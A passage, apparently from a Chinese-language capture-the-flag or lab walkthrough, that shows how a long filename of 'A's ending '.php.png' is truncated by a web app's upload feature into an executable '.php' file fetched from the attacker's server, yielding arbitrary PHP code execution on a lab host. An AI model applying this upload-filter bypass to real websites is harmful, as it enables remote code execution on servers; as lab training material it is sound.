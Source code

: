 让我们试试下面的方法，看看我们能否上传一个`.php`文件:

```
python -c 'print("[http://10.10.14.12/](http://10.10.14.12/)" + **"A"*233 + ".php"** + ".png")'http://10.10.14.12/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png
```

在发送有效载荷之前，让我们用这个名字创建一个文件，并把它放在我们的 web 服务器上。

![](img/f33480573d27ce370258533e06644585.png)

当我发送有效载荷时，它看起来很有希望:)

![](img/926187cdf32374b0314013fe1af0ef09.png)![](img/a0eae9f7609b099b7919b8ae20f07776.png)

当我检查上传的网址，我成功地获得任意 PHP 代码执行。

```
[http://10.10.10.73/uploads/0412-0010_dbe09fe3603f833a/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php](http://10.10.10.73/uploads/0412-0010_dbe09fe3603f833a/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php)
```
